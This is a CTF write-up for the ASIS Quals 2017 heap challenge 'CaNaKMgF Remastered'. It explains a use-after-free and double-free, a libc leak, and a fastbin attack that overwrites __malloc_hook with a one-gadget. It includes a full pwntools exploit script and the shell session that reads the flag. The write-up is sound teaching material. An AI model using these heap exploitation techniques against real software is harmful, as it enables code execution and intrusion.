 ```yaml
---
layout: post
title: ASIS Quals CTF 2017 - CaNaKMgF Remastered
published: True
---
```


**Points:** 384
**Solves:** 25
**Category:** Exploitation 

> [CaNaKMgF_remastered](../binaries/CaNaKMgF_remastered)

{% highlight bash %}
CaNaKMgF_remastered: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e4ba2a9e3c69441f88481b5e06ac21fd52c54b9a, not stripped
{% endhighlight %}

{% highlight python%}
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
{% endhighlight %}

## Intro
This program is based off the `CaNaKMgF` pwnable challenge, except that `CaNaKMgF_remastered` has full RELRO enabled and PIE enabled. Interestingly, during the CTF, I had already solved `CaNaKMgF` using a technique that bypassed both mitigations, so I re-used the same exploit for `CaNaKMgF_remastered` and was able to get the flag.

## Reversing
When we run the program, we are presented with the following menu.

{% highlight bash %}
1. Allocate
2. Pray for Allah
3. Free
4. Read
5. Run away
{% endhighlight %}

The program is very simple. It allows us to allocate heap chunks of different sizes, which it places in a global array in the .BSS called `alloc_list[]`. 
We can write data of our choosing into these chunks and the the program ensures that the length of our data fits inside the chunk we've allocated for it.  
We can specify chunks from this list that we would like to print out the contents of.
Similarly, we can also free any chunks in this list.
 
There was also some functionality to read limited files off the remote server when one selected the "Pray for Allah" option in the `CaNaKMgF` binary, but this function no longer worked in `CaNaKMgF_remastered`, and I didn't use it in my exploit for `CaNaKMgF`, anyway.

## Exploit
The main vulnerability in this program is that when a chunk is freed, the associated pointer to the chunk is not removed from `alloc_list[]`. This allows us to perform **use-after-frees** and **double-frees** which we can abuse to corrupt the heap and gain code execution.

To get a libc leak, we can exploit the **UAF** to allocate 2 small chunks, free one of them and then print its contents out, since we know the `FD` and `BK` pointers of our free'd small chunk will be populated with a pointer to an offset from `main_arena` in libc.

To get control of `RIP`, we can perform a **fastbin attack** to get `malloc()` to return an almost arbitrary pointer, overwrite `__malloc_hook`, and then call our overwritten `__malloc_hook` function pointer by triggering a double free memory corruption error.

To perform the **fastbin attack**, we will allocate 2 fast chunks of size `0x68` bytes, and free the 2nd one, then the 1st one, and then the 2nd one again, abusing the fact that we can double-free fast chunks, so long as the head of the freelist that their fast chunk size is associated with, is not the same as the chunk that is being free'd.  

from `malloc.c`:
{% highlight C %}
if (__builtin_expect (old == p, 0))
  {
    errstr = "double free or corruption (fasttop)";
    goto errout;
  }
{% endhighlight %}

So, right now our fastbin looks like this:

[HEAD]->D->C->D->NULL 

Now, we will allocate another fast chunk of the same size as D, so that D is popped off this freelist and used to service our `malloc()` request.

Since we can also specify the contents of chunks we allocate, we will overwrite the first qword of this chunk with the address of our target that we would like `malloc()` to return.

**This corrupts the `FD` pointer of chunk D, a pointer to  which, still exists in the singly linked freelist!** 

We can select any address to overwrite the `FD` pointer with, subject to certain constraints. 

from `malloc.c`:
{% highlight C %}
 if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
          check_remalloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
{% endhighlight %}

To satisfy these constraints, we will abuse the fact that we can make `FD` point to misaligned addresses as long as they satisfy the valid size metadata field constraint. In our case, since we are targeting fast chunks of size `0x68`, the following is a valid address should do the trick.

{% highlight C %}
gdb-peda$ p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
gdb-peda$ x/32xg 0x7ffff7dd1b10-0x30+0xd
0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f 
0x7ffff7dd1afd:                         0xfff7a93270000000      0xfff7a92e5000007f 
0x7ffff7dd1b0d <__realloc_hook+5>:      0xfff7a92c8000007f      0x000000000000007f
0x7ffff7dd1b1d:                         0x0000000000000000      0x0000000000000000
{% endhighlight %}

At this point, our freelist should now look like this:

[HEAD]->C->D->{target addr}

After two more allocations, our target address should now be at the head of this freelist:

[HEAD]->{target addr}

Then, the next memory allocation of size `0x68` should return a pointer to our target address`+0x10` and since we can control the contents of chunks we allocate, we  will simply overwrite `__malloc_hook` with a **"magic" one gadget RCE** address.

Once we trigger an actual double free corruption error, the program should now spawn a shell.

## exploit.py
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def allocate(length, contents):
    r.sendline("1")
    r.recvuntil("Length?")
    r.sendline(str(length))
    r.sendline(contents)
    r.recvuntil("away")

def free(idx):
    r.sendline("3")
    r.recvuntil("Num? ")
    r.sendline(str(idx))
    r.recvuntil("away")

def read(idx):
    r.sendline("4")
    r.recvuntil("Num? ")
    r.sendline(str(idx)) 
    return r.recvuntil("away")

def exploit(r):
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
    
    # leak libc
    log.info("starting leaks...")
    allocate(255,"A")
    allocate(255,"B")
    free(0)

    libc_base = u64(read(0)[:6].ljust(8,'\0'))-0x3c3b78
    malloc_hook  = libc_base+libc.symbols["__malloc_hook"]
    one_shot = libc_base+0xef6c4
    log.success("libc base found at: "+hex(libc_base)) 
    log.success("one_shot found at: "+hex(one_shot)+"\n\n") 

    ## fastbin attack
    log.info("starting fastbin attack...")
    allocate(0x68,"C") # C # 2
    allocate(0x68,"D") # D # 3
    allocate(255, "E") # E
    
    free(3)
    free(2)
    free(3)

    # overwrite __malloc_hook
    payload = p64(malloc_hook-0x30+0xd)
    allocate(0x68, payload)
    allocate(0x68, "F")
    allocate(0x68, "G")
    allocate(0x68,"H"*0x13+p64(one_shot))
    free(0)
   
    # trigger
    r.sendline("3")
    r.sendline("0") 
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./CaNaKMgF_remastered'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  CaNaKMgF_remastered python exploit.py 128.199.85.217 10001
[*] For remote: exploit.py HOST PORT
[+] Opening connection to 128.199.85.217 on port 10001: Done
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting leaks...
[+] libc base found at: 0x7f80b7c9f000
[+] one_shot found at: 0x7f80b7d8e6c4
    
[*] starting fastbin attack...
[*] Switching to interactive mode

Num? $ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
$ ls
CaNaKMgF
F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
$ cat F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
ASIS{full_relro_fastbin_attack!!!!!!_:-P}
$
{% endhighlight %}
